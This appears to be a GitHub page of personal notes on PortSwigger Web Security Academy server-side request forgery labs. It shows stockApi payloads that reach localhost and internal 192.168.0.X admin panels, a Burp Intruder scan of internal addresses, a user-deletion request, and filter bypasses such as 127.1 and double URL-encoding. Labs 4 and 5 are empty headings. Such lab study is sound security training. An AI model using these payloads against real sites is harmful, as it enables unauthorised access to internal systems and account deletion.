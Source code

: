 # 1. Lab [i](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
- Directly go to `/admin`, it'll allow access if ![image](https://github.com/user-attachments/assets/a522f7c7-2799-4163-b318-ff66b35a9767)
- We need to find a request from the local host.
- Capture a Stock Check Request > Send it to "Repeater" > Change the StockAPI call to `Internal Page`.
- From `stockApi=http%3A%2F%2Fstock.....` to `stockApi=http://localhost/admin`
- ![image](https://github.com/user-attachments/assets/4057fa42-3da5-4004-9183-006c91770151)
- Try deleting carlos user > Observe the requested URL > Pass it to `stockApi=http://localhost/admin/delete?username=carlos` > User is deleted now.

# Lab 2: [SSRF attacks against other back-end systems](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
- To Another backend system, i.e running on 192.168.0.X
- Use the Intruder module: `192.168.0.$X$:8080` > scan the ip from 1-256 > Update request with 200 code in `stockApi=http://192.168.0.154:8080/admin` > open URL in browser
- Try deleting carlos user > Observe the requested URL > Pass it to `stockApi=http://localhost/admin/delete?username=carlos` > User is deleted now.

# Lab 3: [SSRF with blacklist-based input filter](https://portswigger.net/academy/labs/launch/f97f7df5a96da8563edc18e5544b8ef962f8ee47abd9b9bb3d30706f15bff341?referrer=%2fweb-security%2fssrf%2flab-ssrf-with-blacklist-filter)
- SSRF with blacklist-based input filters:
```
Blacklisted:
http://127.0.0.1/
http://localhost/
http://127.1/admin
```

```
Worked:
http://127.1/ >> http://127.0.0.1/
http://127.1/admin >> Double url Encode 'a' to work
```
- Try deleting carlos user > Observe the requested URL > Pass it to `stockApi=...` > User is deleted now.

# Lab 4: []()


# Lab 5: []()

